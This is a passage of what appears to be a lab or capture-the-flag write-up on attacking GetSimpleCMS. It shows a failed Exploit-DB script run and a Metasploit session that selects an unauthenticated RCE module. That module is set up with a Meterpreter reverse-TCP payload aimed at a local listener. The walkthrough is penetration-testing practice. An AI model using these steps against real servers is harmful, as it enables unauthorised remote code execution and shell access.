 *I tried running the exploit, but there is no instruction on how to use it and I cant get it to work*
```
┌──(kali㉿kali)-[~/Desktop/kc]
└─$ python3 51475.py                       
/home/kali/Desktop/kc/51475.py:35: SyntaxWarning: invalid escape sequence '\?'
  match = re.search("jquery.getsimple.js\?v=(.*)\"", r.text)
Traceback (most recent call last):
  File "/home/kali/Desktop/kc/51475.py", line 16, in <module>
    import telnetlib
ModuleNotFoundError: No module named 'telnetlib'
```

This did not work because I was not using valid syntax
### Using msfconsole
```
msf6 > search GetSimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE
```

```
msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasplo
                                         it.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.40.135   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before

```
